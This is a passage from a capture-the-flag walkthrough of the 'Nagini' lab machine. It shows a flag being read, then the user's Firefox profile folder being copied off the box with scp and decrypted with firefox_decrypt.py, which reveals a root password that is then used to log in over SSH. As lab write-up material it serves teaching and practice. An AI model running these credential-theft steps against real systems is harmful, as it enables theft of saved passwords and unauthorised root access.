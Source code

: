 We can now get the second flag

```bash
hermoine@Nagini:~$ cat horcrux2.txt
horcrux_{NXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXU=}
hermoine@Nagini:~$

```

Searching on the machine for a way to escalate the priviliges, I couldn't find anything.

The only valuable thing i found is in hermoine home, and it is the .mozilla folder

The latest versions of Firefox store passwords, encrypted, in a JSON text file, logins.json, in your Firefox profile folder at /home/'yourProfile'/.firefox/ or /home/'yourProfile'/.mozilla/firefox.

I found a [firefox decryptor](https://github.com/Unode/firefox_decrypt/blob/master/firefox_decrypt.py) and I'm going to use it to see if we get something useful.

Before to run it, we have to download the .mozilla from hrmoine home.

```bash
scp -r -i ~/.ssh/id_rsa hermoine@quic.nagini.hogwarts:/home/hermoine/.mozilla /tmp/nagini/.
```

We can now run the **firfox_decrypt.py**

```bash
┌──(animale㉿kali)-[~/Tools/firefox_decrypt]
└─$ python3 firefox_decrypt.py /tmp/nagini/.mozilla/firefox                                                                                                         1 ⨯

Website:   http://nagini.hogwarts
Username: 'root'
Password: '@Alohomora#123'
```

#### **BOOM BOOM!!!!!!! We got it!!!!**

Let's connect in ssh!

![Alt text](./HARRY_POTTER_NAGINI/img/rootSSH.PNG?raw=true "ROOT SSH")
